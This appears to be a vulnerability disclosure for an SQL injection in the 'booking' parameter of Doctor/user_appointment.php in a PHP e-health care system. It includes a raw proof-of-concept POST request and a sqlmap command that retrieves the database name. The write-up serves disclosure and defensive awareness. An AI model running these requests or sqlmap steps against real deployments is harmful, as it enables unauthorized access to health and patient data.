 # E-Health Care System IN PHP has sql injection vulnerability via user_appointment.php

## supplier
https://code-projects.org/e-health-care-system-in-php-css-js-and-mysql-free-download/
## Vulnerability file
Doctor/user_appointment.php
## describe
An unrestricted SQL injection attack exists in user_appointment.php of  E-Health Care System . The parameters that can be controlled are as follows:booking . This function executes the $booking parameter into the SQL statement without any restrictions. A malicious attacker could exploit this vulnerability to obtain sensitive information in the server database.

## code analysis
The $booking parameters of the user_appointment.php  are not filtered and concatenated into the SQL statement for execution.

![image-20241105141657208](https://github.com/user-attachments/assets/67b06f2f-797d-4e3b-986b-73997bd475cb)

![image-20241105141642635](https://github.com/user-attachments/assets/4b78ddb6-571b-49d8-9c49-040ca755370c)

## Function

![image-20241105140043600](https://github.com/user-attachments/assets/a7655fee-525b-49db-b4b5-b3604c3eda2b)

## POC

```
POST /Doctor/user_appointment.php/user_appointment.php HTTP/1.1
Host: healthcare
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 127
Origin: http://healthcare
Connection: close
Referer: http://healthcare/Doctor/user_appointment.php/
Cookie: PHPSESSID=mpi8lqc1vamegv04jnepb8t7as
Upgrade-Insecure-Requests: 1
Priority: u=0, i

schedule_id=1&schedule_date=2024-11-01&schedule_day=sunday&start_time=02%3A01&end_time=03%3A04&booking=a*&submit=submit
```

save as 1.txt

excute the sqlmap command to get current_dbs.

```
python sqlmap.py -r 1.txt --level 3 --risk 2 --current-db
```

see the results.

get current_database:  online_health_care

![image-20241105141455614](https://github.com/user-attachments/assets/c22597c7-80af-4efc-b0dd-3556d0fed27c)